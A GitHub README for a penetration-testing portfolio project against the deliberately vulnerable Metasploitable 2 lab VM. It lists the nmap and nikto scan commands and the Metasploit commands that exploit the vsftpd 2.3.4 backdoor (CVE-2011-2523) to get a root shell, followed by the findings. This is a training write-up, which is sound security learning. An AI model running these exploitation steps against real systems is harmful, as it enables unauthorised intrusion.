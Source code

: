 # 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap

![Project Roadmap](assets/roadmap_infographic.png)

---

## 🔹 Steps Performed

### 1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV 192.168.124.130 -oN nmap_results.txt
📸

2️⃣ Vulnerability Scanning
Nmap vulnerability scripts

bash
Copy code
nmap -sV --script vuln 192.168.124.130 -oN vuln_results.txt
Nikto web scan

bash
Copy code
nikto -h http://192.168.124.130 -output nikto_results.txt
📸

3️⃣ Exploitation (Metasploit)
Exploited vsftpd 2.3.4 backdoor (CVE-2011-2523)

bash
Copy code
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.124.130
run
📸

Verified root access:

bash
Copy code
whoami
📸 (root shell proof)

4️⃣ Reporting
Documented findings, CVEs, and remediation

Delivered a professional consultancy-style report (PDF)

🔹 Deliverables
📄 Full Report (PDF)
🖼️ Roadmap infographic in /assets
📸 Proof screenshots in /screenshots

🔹 Tools Used
Kali Linux

Nmap

Nikto

Metasploit Framework

🔹 Key Findings
Critical: FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access

High: Outdated Apache 2.2.8 & PHP 5.2.4

Medium: Missing HTTP security headers

🔹 Author
👤 Gufran Ahmed

🔗 LinkedIn- https://www.linkedin.com/in/gufran-uh/ 
